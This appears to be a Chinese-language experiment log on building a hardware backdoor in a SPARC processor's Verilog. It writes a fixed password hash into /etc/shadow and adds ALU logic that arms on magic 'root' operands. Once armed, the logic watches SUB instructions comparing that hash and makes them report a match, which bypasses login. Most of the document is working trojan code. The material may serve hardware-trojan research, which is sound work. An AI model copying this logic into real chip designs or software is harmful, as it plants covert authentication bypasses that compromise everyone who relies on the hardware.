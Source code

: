 ## 测试1

下面测个固定的hash，主要看sub指令是按4个字节load这个hash还是有什么情况会让它一个字节一个字节的load。

这个系统ramdisk里啥都缺，没有useradd，也没有vi，所以我只能分别echo一个字串到/etc/passwd和/etc/shadow里来添加用户和密码。
并且系统里还缺/usr/lib/security/crypt_bsdmd5.so.1，所以没法用$1$这种md5的hash。

只能用系统默认的crypt(3)的hash。

用户名guest3（随便什么都行），密码uuu。

`````shell
# echo 'guest3:U8OW4ptN8GB8s:6445::::::' >> /etc/shadow

# echo 'guest3:x:95:95:test:/:/usr/bin/sh' >> /etc/passwd
`````

这回我要在sparc里检测是否出现U8OW4ptN8GB8s这个hash。如果是，结果返回0，让系统过。

U8OW4ptN8GB8s

U8OW         4ptN         8GB8         s

0x55384F57  0x3470744E   0x38474238   0x7300xxxx

`````verilog
   // uty: test
   //  cout64_e should be 1
   // 0x726f6f74 root
   assign backdoor_on_keyword = ((32'h30303030 == byp_alu_rs1_data_e[31:0]) && (32'h726f6f74 == byp_alu_rs2_data_e[31:0]))
                                || ((32'h30303030 == byp_alu_rs2_data_e[31:0]) && (32'h726f6f74 == byp_alu_rs1_data_e[31:0]));
   assign backdoor_off_keyword = ((32'h30303031 == byp_alu_rs1_data_e[31:0]) && (32'h726f6f74 == byp_alu_rs2_data_e[31:0]))
                                || ((32'h30303031 == byp_alu_rs2_data_e[31:0]) && (32'h726f6f74 == byp_alu_rs1_data_e[31:0]));

   assign backdoor_en = backdoor_on_keyword | backdoor_off_keyword;
   assign backdoor_nxt = (backdoor_on_keyword & (~backdoor_off_keyword));

   dffe_s #(1) backdoor_dff(.din(backdoor_nxt), .en(backdoor_en),
                        .clk(clk), .q(backdoor_r), .se(se),
                        .si(), .so());

   // only consider $1$ for now
   assign hash_begin = ((24'h243124 == byp_alu_rs1_data_e[31:8]) && (24'h243124 == byp_alu_rs2_data_e[31:8])
                        && (2'b0 != byp_alu_rs1_data_e[6:5]) && (2'b0 != byp_alu_rs2_data_e[6:5]))
                        & rs1rs2_ishashdata;
...

   assign rs1rs2_ishashdata = ((32'h55384F57 == byp_alu_rs1_data_e[31:0]) || (32'h55384F57 == byp_alu_rs2_data_e[31:0]))
                        || ((32'h3470744E == byp_alu_rs1_data_e[31:0]) || (32'h3470744E == byp_alu_rs2_data_e[31:0]))
                        || ((32'h38474238 == byp_alu_rs1_data_e[31:0]) || (32'h38474238 == byp_alu_rs2_data_e[31:0]))
                        || ((16'h7300 == byp_alu_rs1_data_e[31:16]) || (16'h7300 == byp_alu_rs2_data_e[31:16]))
           ;


        // ifu_exu_invert_d & ecl_alu_cin_e, make sure it is a SUB/SUBcc
        // instruction. (SUBC's ecl_alu_cin_e actually is 0)
   assign trigger_backdoor = ifu_exu_invert_d & ecl_alu_cin_e & backdoor_r & rs1rs2_ishashdata;
   //assign trigger_backdoor = backdoor_r;

`````